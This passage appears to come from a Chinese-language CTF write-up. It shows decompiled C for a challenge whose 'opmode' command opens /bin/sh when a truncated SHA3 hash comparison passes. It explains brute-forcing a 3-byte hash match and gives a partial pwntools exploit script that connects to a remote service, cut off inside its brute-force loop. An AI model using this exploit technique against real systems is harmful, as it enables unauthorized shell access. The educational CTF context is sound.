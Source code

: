 ```c
    input((__int64)&s1, 0x20u, 10);
    if ( !strcmp(&s1, "rename") )
    {
      read(0, ::buf, nbytes);
      puts("successfully reset the username");
    }
    if ( !strcmp(&s1, "opmode") )
    {
      write(1, &unk_6072C0, 0x20uLL);
      v8 = read(0, &buf, 0x24uLL);
      v7 = *(_DWORD *)&buf;
      result = buf & 3;
      if ( buf & 3 )
        return result;
      v6 = &v4;
      sub_402F4A(&v2, &buf);
      sub_403C40(&v2, v6, v7);
      sub_403DD8(&v2, &v1);
      if ( !memcmp(&v1, &unk_6072C0, v7 - 1) )
        system("/bin/sh");
    }
    result = strcmp(&s1, "exit");
    if ( !result )
      break;
    memset(&s1, 0, 0x40uLL);
  }
  return result;
```
输入opmode后，程序会打印flag的哈希值，然后输入一个最大长度为0x24字节的字符串，字符串的前四字节为一个整数，值必须为4的倍数，程序根据整数值取4字节后对应长度的字符串做sha3的哈希，用memcmp比较字符串的hash值和flag的哈希值，比较长度为整数值减1。memcmp比较的字节数最低我们可以控制为3，然后根据程序输出的flag哈希值在本地穷举计算前3字节哈希值和它相等的4字节字符串来通过比较。3字节哈希值的所有组合数为2^8 * 2^8 * 2^8 = 2^24，理论上穷举这么多次就一定可以拿到一个字符串来通过校验，当然这是在考虑哈希值不重复的情况下。7feilee实现了穷举的脚本，在测试的过程中，大概平均1分多钟可以穷举出一个正确值：
```python
from pwn import *
import sys
import hashlib
import sha3
import binascii

p=remote(sys.argv[1],1802)
#p=process("./csgd")
for i in range(0,69):
  print p.recvline(timeout=0.1)
print p.recv(2)
sleep(0.1)
p.send("yy\n")
sleep(0.1)
p.send("yy\n")
sleep(0.1)
p.send("~\n")
sleep(0.1)
p.send("opmode\n")
print "hlep"

for i in range(20):
  txt=p.recv(2,timeout=0.1)
  if txt=="# ":
    txt=p.recv(3,timeout=0.1)
    break
print txt
for i in range(256):
  for j in range(256):
    for z in range(256):
```